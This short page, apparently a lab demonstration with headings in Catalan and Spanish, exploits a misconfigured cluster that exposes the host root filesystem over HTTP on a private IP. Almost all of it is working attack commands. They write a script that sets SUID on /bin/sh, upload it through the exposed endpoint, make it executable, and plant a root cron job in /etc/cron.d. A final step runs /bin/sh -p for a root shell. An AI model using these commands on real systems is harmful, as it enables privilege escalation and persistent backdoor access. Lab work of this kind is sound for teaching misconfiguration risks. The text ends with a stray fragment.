 ## Explotació de la mala configuració
- Cluster segur: 192.168.58.2
- Cluster insegur: 192.168.49.2

# 1. Sube un script que dé SUID a /bin/sh
cat <<EOF > /tmp/backdoor.sh
#!/bin/bash
chmod u+s /bin/sh
EOF

curl -X POST --data-binary @/tmp/backdoor.sh \
http://192.168.49.2:30080/host-root/tmp/backdoor.sh

# 2. Hazlo ejecutable
curl -X POST http://192.168.49.2:30080/host-root/bin/chmod \
--data "755 /tmp/backdoor.sh"

# 3. Ejecútalo mediante cron
echo "* * * * * root /tmp/backdoor.sh" | \
curl -X POST --data-binary @- \
http://192.168.49.2:30080/host-root/etc/cron.d/exploit

# 4. Espera 1 minuto y accede
/bin/sh -p
cle

